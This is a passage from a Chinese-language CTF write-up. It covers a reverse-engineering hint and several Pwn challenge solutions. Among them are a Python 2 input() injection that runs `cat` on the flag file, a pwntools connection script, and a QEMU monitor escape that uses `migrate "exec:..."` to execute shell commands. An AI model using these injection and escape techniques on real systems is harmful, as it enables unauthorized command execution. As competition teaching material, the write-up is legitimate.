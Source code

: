 也可以把 check 函数 ida f5 出来后加减互换，输入密文

#### 夹👶🏻机

三万👴：看到 time.Date() 猜测 RC4 的密钥为时间戳，根据前文 "2021 年苹果春晚"，百度，得到 2021 年4 月21 日凌晨1 点。转化为时间戳解密即可。

### Pwn

#### Pwn_Checkin

```
/ # ls
ls
bin      etc      linuxrc  root     sys      usr
dev      init     proc     sbin     tmp
/ # md5sum init
md5sum init
5cb180560110e5552d7a90ac5cf769cb  init
/ #
```

#### Baby_Python

经典 python2 `int(input())`

```
Input two number:
__import__('os').system('cat /home/ctf/flag')
flag{2e147e3242f9093105a7940056027cbe}
```

#### White_Give_Flag

白给 flag，可以看这篇博客：[VNCTF2021-WriteGiveFlag](https://aidaip.github.io/binary/2021/03/17/VNCTF2021-WriteGiveFlag.html)

```python
from pwn import *
r = remote('39.106.29.44',10100)
r.recvuntil('choice:')
r1 = r.spawn_process(1)
r.shutdown_raw('send')
r.interactive()
```

#### Baby_Qemu

launch.sh 没写 -monitor /dev/null，直接 `ctrl+a+c` 进 monitor

然后 `migrate "exec:cat flag 1>&2"`

```
/ # ^Ac
QEMU 4.2.1 monitor - type 'help' for more information
(qemu)
(qemu) migrate "exec:cat flag 1>&2"
migrate "exec:cat flag 1>&2"
flag{457e0d74fccfe54ef8700eb38b688065}qemu-system-x86_64: failed to save SaveStateEntry with id(name): 3(ram)
qemu-system-x86_64: Unable to write to command: Broken pipe
qemu-system-x86_64: Unable to write to command: Broken pipe
(qemu)
```
